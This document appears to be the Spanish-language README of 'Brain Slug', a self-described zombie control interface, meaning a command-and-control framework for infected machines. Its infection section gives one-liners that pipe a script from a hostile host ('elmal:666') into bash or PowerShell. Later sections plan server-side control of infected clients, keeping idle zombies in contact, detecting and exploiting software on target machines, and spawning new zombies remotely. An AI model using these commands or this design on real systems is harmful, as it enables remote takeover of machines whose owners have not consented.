 Brain Slug
==========

Universal Zombie Control Interface


Dev Install
-----------

.. code-block:: bash

    pipenv install


Concepto
--------

Brain Slug consta de varias partes más pequeñas:

  * Un código de infección de la máquina que hace un curl | interpreteX
  * Una sesión de servidor con la que se puede controla el flujo sin que
    el cliente tenga ningún tipo de lógica


Infección
~~~~~~~~~

Esta se lleva a cabo a través de un curl:

.. code-block:: bash

    curl "http://elmal:666/register" | bash

Incluso en windows 10:

.. code-block:: powershell

    curl "http://elmal:666/register" | powershell.exe


Servidor
~~~~~~~~

En el servidor se gestiona para cada cliente su estado en la ejecución.
De forma que cuando un cliente pregunte por la siguiente operación a
ejecutar el servidor se lo da de forma correcta.

A parte de ejecutar operaciones el servidor siempre debe enviar la
siguiente instrucción para que el agente pueda funcionar.

Las operaciones pueden enviar como respuesta a las ejecuciones el
resultado de la evaluación de la operación al servidor para que se
guarden en el servidor. O pueden enviar otra orden para que se guarden
en la memoría del cliente. De esta forma el estado esta compartido entre
ambos sistemas pero el control de flujo esta completamente del lado del
servidor.

Todo el código ejecutado desde el servidor debe estar traspilado al
interprete del cliente, en una primera versión se hará un recetario con
plantillas como validar la prueba de concepto.


Ideas secundarias
-----------------

Se puede tener una app de parking con los clientes zombies para los que
no se tenga todavía trabajo de forma que ocupen pocos recursos y nos
aseguremos que no se pierde el contacto con los mismos.

Se pueden tener diferentes flujos y applicaciones de forma que un zombie
pueda ejecutar diferentes "caminos" de ejecución dependiendo de su
naturaleza. Por ejemplo, una applicacione que detecte si existe un
software en la máquina objetivo y otra aplicación especializada en su
explotación.

Se pueden tener meta aplicaciones que orquesten multi tareas en un
zombie o multi zombie. Para esto se necesita abrir un fork en la máquina
remota que instancie un nuevo zombie.
